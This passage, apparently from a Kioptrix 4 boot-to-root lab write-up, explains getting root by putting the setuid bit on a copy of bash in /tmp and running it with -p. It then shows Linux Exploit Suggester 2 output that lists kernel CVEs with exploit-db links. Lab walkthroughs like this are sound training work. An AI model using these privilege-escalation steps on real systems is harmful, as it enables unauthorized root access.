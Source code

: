 The previous command copies the `bash` binary to the `/tmp`{: .filepath} directory and then add the setuid permission to it. The setuid bit tells the OS to execute the program with the user ID of its owner.

Now, if you navigate to the `/tmp`{: .filepath} directory and execute the `bash` binary with the `-p` flag, you will gain root privileges:

![Desktop View](/assets/img/posts/2024-06-14-kioptrix-4-boot-to-root/pic29.png)

Another method to gain root access is by exploiting a kernel vulnerability.

```
==============snippet=================
╔══════════╣ Executing Linux Exploit Suggester 2
╚ https://github.com/jondonas/linux-exploit-suggester-2                                                                                                                                      
  [1] american-sign-language                                                                                                                                                                 
      CVE-2010-4347
      Source: http://www.securityfocus.com/bid/45408
  [2] can_bcm
      CVE-2010-2959
      Source: http://www.exploit-db.com/exploits/14814
  [3] dirty_cow
      CVE-2016-5195
      Source: http://www.exploit-db.com/exploits/40616
  [4] do_pages_move
      Alt: sieve       CVE-2010-0415
      Source: Spenders Enlightenment
  [5] exploit_x
      CVE-2018-14665
      Source: http://www.exploit-db.com/exploits/45697
  [6] half_nelson1
      Alt: econet       CVE-2010-3848
      Source: http://www.exploit-db.com/exploits/17787
  [7] half_nelson2
      Alt: econet       CVE-2010-3850
      Source: http://www.exploit-db.com/exploits/17787
  [8] half_nelson3
      Alt: econet       CVE-2010-4073
      Source: http://www.exploit-db.com/exploits/17787
  [9] msr
      CVE-2013-0268
      Source: http://www.exploit-db.com/exploits/27297
  [10] pipe.c_32bit
      CVE-2009-3547
      Source: http://www.securityfocus.com/data/vulnerabilities/exploits/36901-1.c
  [11] pktcdvd
      CVE-2010-3437
      Source: http://www.exploit-db.com/exploits/15150
```